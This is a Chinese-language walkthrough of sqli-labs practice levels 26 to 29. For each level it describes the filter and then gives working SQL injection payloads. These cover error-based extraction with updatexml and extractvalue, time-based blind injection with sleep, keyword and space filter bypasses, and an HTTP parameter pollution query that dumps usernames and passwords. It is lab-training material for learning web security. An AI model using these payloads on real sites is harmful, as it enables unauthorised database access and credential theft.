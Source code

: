 然鹅这几种方法都在window上翻车了，都被过滤掉了，若有大佬知情，麻烦赐教本菜鸡。听说在linux可行，但我还没试过。所以在这里就不用这种方法绕过，试了一下可以用报错注入：

```php
?id=-1'oorr(updatexml(1,concat(0x7e,database()),1));%00
?id=1'||(updatexml(1,concat(0x7e,database()),1))||'
?id=1'|(updatexml(1,concat(0x7e,database()),1))|'
都可以  
```

## Less-26a（同25关，关闭报错，时间盲注）

 这关与26关的区别是，字符串是以(’’)的方式进行闭合的，且**不显示报错信息**，那就用延时注入：
**?id=-1’(union(if(left(database(),1)>‘a’,sleep(5),1)))||’**  

## Less-27 （过滤了union和select其余同26关的单引号闭合注入）

本关多了对select、union关键字的过滤，用**大小写混用**表示select、union，利用报错注入，这里爆出表：

```php
?id=-1' || extractvalue(1,concat('',(sElect(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),''))||'
```

## Less-27a

本关与27关的区别是用了""闭合字符串，且没有报错回显，故可利用**延时注入**：

```php
 ?id=-1"(uNion(if(left(database(),1)>'a',sleep(5),1)))||"  
```

## Less-28(')闭合)

很奇怪，这关对%0a没过滤掉，也就是这关咱们可以用%0a代替空格，这下舒服多了。看了题目，这关应该是**')**的闭合方式，再查看源码，发现对select、union的过滤方式是联合在一起：

```php
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
```

直接上payload:

```php
?id=-1')%0a union(select %0a 1,2,3 )||('1
```

## Less-28a(说是盲注，其实有回显，简单不提)

## Less-29（HTTP参数污染）

具体可以看我[1、 SQL注入总结](https://www.yuque.com/uf9n1x/websec/cz92kq#9bc35c24)那篇里面的HTTP参数污染原理解析，没什么问题

payload:

```php
 Less-29/?id=1&id=-2'union select 1,2,(select group_concat(username,'-',password) from users)–+  
```
